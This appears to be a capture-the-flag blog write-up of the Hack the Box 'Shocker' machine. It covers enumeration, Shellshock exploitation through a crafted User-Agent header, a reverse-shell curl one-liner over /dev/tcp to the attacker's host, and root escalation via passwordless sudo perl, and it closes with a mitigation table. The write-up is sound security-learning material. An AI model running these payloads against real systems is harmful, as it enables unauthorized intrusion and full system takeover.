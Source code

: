 ```yaml
--- 
title: "Hack the Box (HTB) - Shocker"
description: "Exploiting Shellshock & escalating with poor sudo permissions"
date: 2024-07-20 12:00:00 -100
image: /assets/images/HTB - Shocker/HTB - Shocker Thumbnail.png
categories: [CTF]
tags: [shellshock,web application]    # TAG names should always be lowercase
---
```


## Enumeration

Let's start by running a [AutoRecon](https://github.com/Tib3rius/AutoRecon) against our box at `10.10.10.56`

```bash
sudo autorecon 10.10.10.56
```

Checking the full TCP scan of the machine, we see the following ports open:

| Port     | State | Service | Reason           | Version                                |
|----------|-------|---------|------------------|----------------------------------------|
| 80/tcp   | open  | http    | syn-ack ttl 63   | Apache httpd 2.4.18 ((Ubuntu))        |
| 2222/tcp | open  | ssh     | syn-ack ttl 63   | OpenSSH 7.2p2 Ubuntu 4ubuntu2.2        |

SSH is on a non standard port, but is irrelevant. Let's check out the apache web server running on port 80

![Apache web server](/assets/images/HTB%20-%20Shocker/Apache%20web%20server.png)

Nothing much here, checking  the source code only reveals bug.jpg which isn't useful

Let's check our dirbuster scan provided to us by autorecon

![Dirbuster](/assets/images/HTB%20-%20Shocker/Shocker%20Dirbuster.png)

Only 200 response on the root directory and bug.jpg.

I decided  to run a `feroxbuster` scan manually to check the directories as well

![CGI-BIN](/assets/images/HTB%20-%20Shocker/CGI%20BIN.png)

We're getting a 403 access denied on cgi-bin/ which is a common directory for web severs to store CGI executable scripts. These scripts are used to generated dynamic content on web servers. Let's run another enumeration on `cgi-bin/` to see what scripts we can find

```bash
feroxbuster -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x cgi,sh,pl,py,php
```

![User.sh Script](/assets/images/HTB%20-%20Shocker/user.sh.png)

We get a 200 response on this /user.sh script. Let's curl the request to see what we get

```bash
curl http://10.10.10.56/cgi-bin/user.sh
```

![Curl Request](/assets/images/HTB%20-%20Shocker/Curl%20Request.png)

I got stuck here, apparently this directory is vulnerable to an exploit called [Shellshock](https://beaglesecurity.com/blog/vulnerability/shellshock-bash-bug.html#:~:text=Shellshock%2C%20also%20known%20as%20the,to%20a%20Bash%2Dbased%20application.). It's a vulnerability in old versions of Bash that lets attackers send HTTP requests that manipulate variables due to the improper handling of environment variable function

We can run a specific nmap scan against this to ascertain if the target is vulnerable

```bash
nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 10.10.10.56
```

![Shocker Nmap](/assets/images/HTB%20-%20Shocker/Shocker%20nmap.png)

Our nmap scans confirms the target is vulernable to [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/cve-2014-6271) I.E Shellshock

### Exploiting without Metasploit ?

There's a metasploit module that gets us user level access with the click of a button, but let's try exploiting manually for this box

We will use the following curl to make a malicious HTTP request with a specially crafted User-Agent header

```bash
url -H "User-Agent: () { :;}; echo; /bin/bash -c 'whoami'"
```

- `() { :;}:` Defines a function in the User-Agent header (empty)
- `/bin/bash -c 'id'` The command that is executed by the vulnerable bash interpreter

Since this sever is confirmed to be running an outdated version of bash, it will process our user-agent header as a function definition. This happens because bash (**before the shellshock update**) processes the user agent header as a function definition instead of plain text

![Shell Shocked](/assets/images/HTB%20-%20Shocker/Shell%20Shocked.png)

We have RCE. Let's get our shell going. I'll start up my nc listener and perform the following curl request with the reverse shell one liner

```bash
curl -H "User-Agent: () { :;}; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.36/9001 0>&1'" http://10.10.10.56/cgi-bin/user.sh
```

![Shell](/assets/images/HTB%20-%20Shocker/Shell.png)

## Privilege Escalation

Running `sudo -l` tells us the following:

- User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

We can run perl commands as root without a password. We can leverage this to execute /bin/sh to spawn a shell. Since we run this as sudo it will spawn a root shell

```bash
sudo /usr/bin/perl -e 'exec "/bin/sh"'` 
```

GG, we've rooted Shocker!

![Rooted](/assets/images/HTB%20-%20Shocker/Root%20Shocker.png)

## Summary

1. Initial Enumeration  discovered a web server
2. Directory Busting  found /cgi-bin/user.sh
3. Nmap Scanning  confirmed vulnerability to Shellshock
4. Curl HTTP Request verified Shellshock exploit
5. Reverse Shell established a connection back to your machine
6. Ran sudo -l to discover sudo rights for usr/bin/perl without a password
7. Used perl to execute /bin/sh as root

## Vulnerabilities & Mitigation

| Vulnerability     | Mitigation            |
|-------------------|-----------------------|
| Shellshock (CVE-2014-6271) in CGI scripts  | Update Bash to the latest version. Ensure scripts properly sanitize input.|
| Sudo privilege escalation NOPASSWD | Restrict sudo permissions and require passwords for all commands

### Remediation References

- [Mitre.org - Update Bash to the latest version](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
- [Restrict sudo permissions and require passwords for all commands](https://www.sudo.ws/security.html).